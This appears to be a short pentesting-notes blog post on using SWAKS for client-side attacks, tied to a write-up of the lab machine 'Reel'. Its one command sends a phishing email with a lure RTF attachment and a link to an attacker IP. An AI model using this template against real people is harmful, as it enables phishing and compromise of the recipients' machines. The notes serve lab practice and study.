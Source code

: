 ```yaml
---
description: >-
  Swiss Army Knife for SMTP
title:  SWAKS (Swiss Army Knife for SMTP)              # Add title here
date: 2023-01-24 08:00:00 -0600                           # Change the date to match completion date
categories: [10 Client Side Attacks, SWAKS (Swiss Army Knife for SMTP)]         # Change Templates to Writeup
tags: [client side attack, swaks, smtp]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Send an e-mail with an attachment
```bash
swaks --to nico@megabank.com --from shuciran@shuciran.com --body "http://10.10.16.2" --header "Subject: RTF format procedure" --attach Invoice.rtf
```
Examples:
[Reel](https://shuciran.github.io/posts/Reel/#fnref:swaks)
[[Outdated#^b58982]]